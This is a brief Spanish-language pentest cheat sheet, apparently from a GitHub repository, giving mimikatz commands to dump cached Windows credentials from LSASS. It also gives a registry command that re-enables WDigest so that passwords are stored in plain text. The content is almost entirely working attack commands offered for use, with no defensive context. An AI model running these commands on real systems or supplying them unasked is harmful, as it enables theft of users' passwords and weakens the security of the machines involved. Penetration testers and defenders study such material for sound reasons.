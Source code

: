 ## Solo va a funcionar si el user tiene permisos de debug o es un superusuario

### Dumpear credenciales en cache con mimikatz 
##### Llamamos a mimikatz
    mimikatz.exe
##### cargamos los permisos
    privilege::debug
##### Dumpeamos la lsass
    sekurlsa::logonPasswords full


Hay veces en que el wdigest esté protegido y no permitirá dumpear los passwords en texto plano. Para desprotegerlo (si tenemos permisos de admin):
##### cmd:


    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

##### Luego:
    gpupdate /force

intentamos nuevamente y tendrían que aparecer 
